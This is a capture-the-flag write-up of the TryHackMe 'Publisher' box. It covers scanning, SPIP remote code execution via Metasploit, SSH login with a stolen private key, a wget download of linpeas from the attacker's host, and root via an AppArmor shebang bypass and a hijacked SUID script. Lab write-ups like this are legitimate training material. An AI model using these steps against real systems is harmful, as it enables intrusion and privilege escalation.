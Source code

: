 # **Publisher | THM**

***

## **Difficulty == Easy**


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/5cd8d676-dee0-49ef-916c-447fabe775f4)

***

First of all start jamming with this track as you solve the box xD 😆


<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/780BUxpCmW9vOVYZsqdLLE?utm_source=generator&theme=0" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>


Running our nmap scan we have


```
# Nmap 7.94SVN scan initiated Thu Jul  4 09:06:41 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.36.191
Warning: 10.10.36.191 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.36.191
Host is up (0.42s latency).
Not shown: 51611 closed tcp ports (conn-refused), 13922 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 09:10:12 2024 -- 1 IP address (1 host up) scanned in 210.99 seconds
```




Navigating to port 80/HTTP we have this website



![](https://i.imgur.com/0UeRidl.png)



Decided to run a directory bruteforce scan and got a `/spip` directory



```
ffuf -ic -u "http://10.10.36.191/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png,.jpg,.jpeg,.html
```




![](https://i.imgur.com/AbNVHWT.png)



Navigating there looks like we have the true **spip** endpoint



![](https://i.imgur.com/TrgUwLr.png)



Searched for exploit and tried out the manual ones but to no avail



![](https://i.imgur.com/D7bG0TF.png)


Later found out that the reason why there is no response is due to the fact that there is meant to be two `oubli` parameter and we have only one, even by adding the other `oubli` parameter, still no response, find out more about this from [here](https://github.com/nuts7/CVE-2023-27372?tab=readme-ov-file)



![](https://i.imgur.com/TJHQbfr.png)



However for some reason metasploit works using this [module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/spip_rce_form.rb) 



```
use exploit unix/webapp/spip_rce_form
set rhosts --
set lhost --
set lport --
set 
```


![](https://i.imgur.com/8dBGEVR.png)


Checking the home directory of the user `think`, i found the `id_rsa` key for this user, meaning we can now login via ssh as this user



![](https://i.imgur.com/TvakKAB.png)


Go ahead and copy the `id_rsa` key for this user and login directly 



```
nano id_rsa
chmod 600 id_rsa
ssh think@10.10.77.4 -i id_rsa
```




![](https://i.imgur.com/xL1BHAN.png)



For some reasons i can't upload files or even write to my own home folder and the temporary folder on this machine


![](https://i.imgur.com/4YiyNMM.png)



However i found out there is `/var/tmp` which in fact i can write to


![](https://i.imgur.com/yhpjVvb.png)



![](https://i.imgur.com/aUvwBlr.png)




Then i transferred `linpeas.sh` to the box ASAP



```bash
# Attacker
python3 -m http.server 80

# Victim
wget 10.2.15.115/linpeas.sh
```



![](https://i.imgur.com/DoOBjGf.png)




Something seems fishy after running linpeas, there is a world writable file called `run_container.sh` in the `/opt` directory




![](https://i.imgur.com/Yoj3nxZ.png)



....And there is also a suspicious SUID file called `run_container`


![](https://i.imgur.com/DFsjWvL.png)


Using the strings command on this file looks like the SUID binary calls the file in the `/opt` directory, interesting!!


![](https://i.imgur.com/DjgAXgS.png)


Navigating to the `/opt` directory we get a permission denied


![](https://i.imgur.com/28VEvdJ.png)


However there is an hint on getting root on the tryhackme website



![](https://i.imgur.com/mZL3WWT.png)



checking the `apparmor` profile we can see that there is a rule set for our currently default shell `/usr/sbin/ash`



```
cd /etc/apparmor.d
echo $SHELL
```



![](https://i.imgur.com/Kvccwjh.png)


> **AppArmor** (Application Armor) is a Linux security module that allows the system administrator to restrict programs' capabilities with per-program profiles.


According to the rules we have been denied access as following:

- denied read access to `/opt`
- denied write access to `/opt` due to the (`**`) at the end of the rule
- denied write access to `/tmp`, `/dev`, `/var`, `/home/**`
- Memory map, read, inherit and write permissions allowed on `/usr/bin/**`, `/usr/sbin/**`



![](https://i.imgur.com/iumwmKs.png)



No wonder we can't write or read the `/opt` directory directly, however we are able to at least cat out the file

```
cat /opt/run_container.sh
```


![](https://i.imgur.com/auG649x.png)



After several thought and trials i found this [YouTube video](https://www.youtube.com/watch?v=0FpXW7J-eX0) that helped me where we can actually create all our commands in a file and execute directly using the shebang bypass.


So what do we do ??


Since we have a restriction policy for our current shell in other to bypass this we need to start bash in a new process entirely, soo first of all let create a `.sh` file with all of our commands


```bash
cd /var/tmp
nano cmd.sh

# Paste Content Below

#!/bin/bash

echo "/bin/bash -p" > /opt/run_container.sh
```




![](https://i.imgur.com/1eVlIcb.png)


Now grant executable permissions and run with `./` not `bash` cos you are creating a bash process inside the `ash` shell which won't be executed. You can read more about this from [here](https://gist.github.com/sec-fortress/22a18ecba4fe03028892c1120bdbb82d)


```
chmod +x cmd.sh
./cmd.sh
```



![](https://i.imgur.com/SPQpzZx.png)




Then run the `run_container` SUID file to get root



![](https://i.imgur.com/lk9Uyqf.png)



Congratzzzz, Que se diviertan Amigos 🌠



![](https://i.imgur.com/hRlS5Hi.png)

